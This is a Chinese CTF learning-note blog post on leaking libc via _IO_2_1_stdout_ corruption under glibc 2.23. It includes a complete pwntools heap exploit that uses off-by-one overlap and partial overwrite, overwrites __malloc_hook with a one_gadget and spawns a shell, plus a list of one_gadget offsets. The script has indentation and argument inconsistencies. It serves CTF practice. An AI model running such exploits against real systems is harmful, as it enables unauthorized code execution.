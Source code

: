 ```yaml
---
layout:     post
title:      IOfile泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IOfile泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IOfile泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面就包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，最后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

覆盖最后两字节为`\xdd\xN5`，N需要爆破1/16，实际上应该是比`main_arena+88`大了0x100，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'
#libc_name='libc.so.6'
libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    			p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
			libc=ELF("./"+libc_name)
		else:
    			p=remote('',)
    			e=ELF("./"+binary_name)
    			libc=ELF("./"+libc_name)
        
		add(0x18)#0
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
		
    		delete(1)
    		#off-by-one，构造堆块重叠
    
		delete(2)
    		#将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
		
		add(0x58)#2，与fastbin中重叠
		
		edit(2,'\xdd\x25')
    		#修改低位两字节
		
		add(0x68)#4
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
		#填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
    		print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
		
		add(0x68,'b')#8
		add(0x68,'b')#10
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
		
		cho(1)
    		sla("size?",str(100))
		#调用malloc
		
		ia()
		break
	except:
		p.close()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
	rax == NULL


0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL


0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL


0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了

